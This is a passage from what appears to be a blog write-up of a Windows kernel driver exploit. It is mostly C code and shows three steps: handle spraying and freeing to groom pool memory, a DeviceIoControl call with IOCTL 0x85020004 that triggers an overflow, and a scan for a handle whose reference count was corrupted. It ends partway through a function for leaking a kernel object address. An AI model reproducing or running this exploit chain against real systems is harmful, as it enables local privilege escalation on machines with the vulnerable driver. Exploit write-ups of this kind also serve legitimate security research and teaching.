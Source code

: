    for (i = 0; i < ARR_2_LEN; i += 16)
    {
#ifdef _AMD64_
        for (j = 0; j < 3; j++)
#else
        for (j = 0; j < 4; j++)
#endif
        {
            if (CloseHandle(ObjectArrayB[i + j]) == TRUE)
            {
                ObjectArrayB[i + j] = NULL;
            }
            else
            {
                DWORD err;

                err = GetLastError();
                printf("CloseHandle for " __FUNCTION__ " failed: %d\n", err);
                r = FALSE;
                goto Exit;
            }
        }
    }

Exit:
    return r;
}
{% endhighlight %}
Trigger the overflow by issueing the IoCTL:

DeviceIoControl(hDevice, 0x85020004, &InputBuffer, 8, &OutBuffer, 4, &ReturnedLength, NULL);

Go over the array looking for the handle:
{% highlight C %}
HANDLE LookupMarkedHandle()
{
    HANDLE r;
    UINT32 i;
    OBJECT_BASIC_INFORMATION ObjInfo;

    r = NULL;

    for (i = 0; i < ARR_2_LEN; i++)
    {
        if ((ObjectArrayB[i]) != NULL &&
            (QueryObject(ObjectArrayB[i], &ObjInfo) == TRUE))
        {
            if (ObjInfo.HandleCount >= 0x2000)
            {
                r = ObjectArrayB[i];
                break;
            }
        }
    }

    return r;
}
{% endhighlight %}
Get the address of the object:
{% highlight C %}
PVOID GetObjectByHandle(HANDLE hObject)
{
    BOOL     r;
    NTSTATUS status;
    DWORD    Pid;
    DWORD    ReturnedLength;
    PVOID    pObject;